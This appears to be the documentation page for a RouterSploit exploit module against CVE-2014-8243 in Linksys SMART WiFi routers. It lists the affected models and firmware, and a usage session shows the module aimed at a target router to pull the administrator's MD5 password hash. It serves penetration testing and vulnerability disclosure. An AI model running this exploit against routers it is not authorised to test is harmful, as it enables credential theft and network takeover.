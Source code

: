 # Linksys SMART WiFi Password Disclosure

## Description
Exploit implementation for Linksys SMART WiFi Password Disclosure vulnerability. If target is vulnerable administrator's MD5 passsword is retrieved.

## Authors
* Sijmen Ruwhof # vulnerability discovery
* 0BuRner # routersploit module

## References
* [https://www.kb.cert.org/vuls/id/447516](https://www.kb.cert.org/vuls/id/447516)
* [http://sijmen.ruwhof.net/weblog/268-password-hash-disclosure-in-linksys-smart-wifi-routers](http://sijmen.ruwhof.net/weblog/268-password-hash-disclosure-in-linksys-smart-wifi-routers)
* [https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-8243](https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-8243)
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-8243](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-8243)

## Vulnerable devices
* Linksys EA2700 < Ver.1.1.40 (Build 162751)
* Linksys EA3500 < Ver.1.1.40 (Build 162464)
* Linksys E4200v2 < Ver.2.1.41 (Build 162351)
* Linksys EA4500 < Ver.2.1.41 (Build 162351)
* Linksys EA6200 < Ver.1.1.41 (Build 162599)
* Linksys EA6300 < Ver.1.1.40 (Build 160989)
* Linksys EA6400 < Ver.1.1.40 (Build 160989)
* Linksys EA6500 < Ver.1.1.40 (Build 160989)
* Linksys EA6700 < Ver.1.1.40 (Build 160989)
* Linksys EA6900 < Ver.1.1.42 (Build 161129)

## Usage
```
rsf > use exploits/linksys/smartwifi_password_disclosure
rsf (Linksys SMART WiFi Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Linksys SMART WiFi Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Linksys SMART WiFi Password Disclosure) > run
[*] Running module...
```
